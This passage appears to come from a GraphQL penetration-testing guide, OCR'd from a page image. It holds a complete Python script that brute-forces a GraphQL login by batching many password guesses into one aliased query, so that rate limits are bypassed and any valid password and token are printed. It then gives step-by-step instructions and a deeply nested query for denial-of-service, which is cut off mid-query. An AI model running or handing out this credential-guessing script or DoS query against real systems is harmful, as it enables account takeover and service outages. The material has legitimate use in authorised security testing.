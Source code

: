        def brute_force_with_aliases(url, username, password_list):
           headers = {"Content-Type": "application/json"}
           
           # Construct query with aliases
           query_parts = []
           for i, password in enumerate(password_list):
               alias = f"try{i+1}"
               query_parts.append(f"""
                 {alias}: login(username: "{username}", password: "{password}") {{
                   success
                   token
                 }}
               """)
           
           full_query = "{\n" + "\n".join(query_parts) + "\n}"
           
           print(f"[*] Sending query with {len(password_list)} password attempts")
           response = requests.post(url, headers=headers, json={"query": full_query})
           
           if response.status_code == 200:
               try:
                   result = response.json()
                   if "data" in result:
                       # Check each aliased result for success
                       for i, password in enumerate(password_list):
                           alias = f"try{i+1}"
                           if alias in result["data"]:
                               login_attempt = result["data"][alias]
                               if login_attempt and login_attempt.get("success") == True:
                                   print(f"[+] Found working password: {password}")
                                   print(f"[+] Token: {login_attempt.get('token')}")
                                   return password, login_attempt.get('token')
                   
                   print("[-] No successful login attempts found")
               except Exception as e:
                   print(f"[-] Error processing response: {str(e)}")
           else:
               print(f"[-] Request failed with status code {response.status_code}")
           
           return None, None
       
       # Example usage
       password_list = ["password1", "123456", "admin", "qwerty", "letmein"]
       brute_force_with_aliases("https://target.com/graphql", "admin", password_list)
       ```
    
    3. **Nested query DoS attacks**:
       - Step 1: Identify fields that can be nested or recursively queried
       - Step 2: Create a deeply nested query that requires significant processing
       - Step 3: Test the impact on server resources
       - Step 4: Gradually increase complexity to find the threshold
       - Step 5: Determine if DoS is possible
       - Example nested query for DoS:
       ```graphql
       {
         users(first: 100) {
           edges {
             node {
               followers(first: 100) {
                 edges {
                   node {
                     followers(first: 100) {